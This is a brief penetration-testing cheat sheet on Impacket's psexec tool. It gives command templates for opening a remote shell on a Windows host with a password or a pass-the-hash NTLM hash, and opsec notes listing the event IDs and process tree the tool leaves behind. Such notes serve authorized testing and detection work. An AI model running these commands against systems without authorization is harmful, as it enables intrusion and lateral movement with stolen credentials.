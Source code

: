 ### Source
https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py  

### Open shell on remote host
```
impacket-psexec <domain>/<user>:<password>@<rhost>
```

### Using hash (hash must be: lmhash:nthash)
```
impacket-psexec -hashes :<ntlmhash> <domain>/<user>@<rhost>
```

### Opsec considerations
```
upload randomly named exe file to C:\Windows

Windows Security Log Event IDs
-Logon (4624) -> multiple
-Special Logon (4672) -> multiple

Windows System Logs
-Service Control Manager (7045)
```

### Running processes
```
gsHtpykm.exe
└── cmd.exe
    └── Conhost.exe
```

